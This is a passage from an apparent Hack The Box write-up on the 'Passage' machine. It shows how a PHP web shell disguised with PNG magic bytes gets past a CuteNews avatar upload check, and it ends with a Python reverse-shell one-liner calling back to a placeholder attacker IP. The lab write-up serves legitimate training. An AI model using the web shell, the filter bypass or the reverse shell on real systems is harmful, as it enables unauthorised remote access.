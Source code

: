 
But we get a error saying the avatar is not correct.  
  



Looks like we could not directly upload a php script as there is some kind of checking involved for the file being uploaded. So I made another file with magic bytes of a image file ie png and php code.  

## Contents of shell.php

```console
local@local:~/Documents/htb/boxes/passage$ cat shell.php
PNG

IHDR )IDATx0aT@Iy=.cIENDB`
<?php echo system($_GET['cmd']); ?>
```
```console 
local@local:~/Documents/htb/boxes/passage$ xxd shell.php 
00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
00000010: 0000 0020 0000 0020 0802 0000 00fc 18ed  ... ... ........
00000020: a300 0000 2949 4441 5478 9ced cd31 0100  ....)IDATx...1..
00000030: 0008 c330 c0bf e761 02be 5440 d349 eab3  ...0...a..T@.I..
00000040: 79bd 0300 0000 0000 0000 0080 c316 c7f1  y...............
00000050: 033d 2e18 0363 0000 0000 4945 4e44 ae42  .=...c....IEND.B
00000060: 6082 0a3c 3f70 6870 2065 6368 6f20 7379  `..<?php echo sy
00000070: 7374 656d 2824 5f47 4554 5b27 636d 6427  stem($_GET['cmd'
00000080: 5d29 3b20 3f3e 0a                        ]); ?>.
```
  
    
And this time, I didnot get the error and it says User info updated.
![9](/assets/images/passage/9.png)
  
    

#### Checking the _/CuteNews/uploads_
![10](/assets/images/passage/10.png)  

# Getting a shell on the box
![11](/assets/images/passage/11.png)  

This proves that we have code execution on the box.

## Payload Used
```console
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
